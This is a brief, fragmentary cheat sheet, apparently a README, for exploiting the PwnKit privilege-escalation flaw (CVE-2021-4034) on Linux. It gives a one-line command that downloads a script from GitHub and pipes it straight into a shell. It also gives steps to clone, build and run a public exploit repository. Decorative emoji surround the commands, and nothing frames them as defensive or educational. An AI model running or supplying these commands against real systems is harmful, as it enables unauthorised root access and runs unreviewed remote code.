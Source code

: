 burn 2.0 -> sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
😈😈😈😈
# vunl
code : git clone "https://github.com/berdav/CVE-2021-4034"
😈😈😈😈😈 burn -> make, ./cve-2021-4034
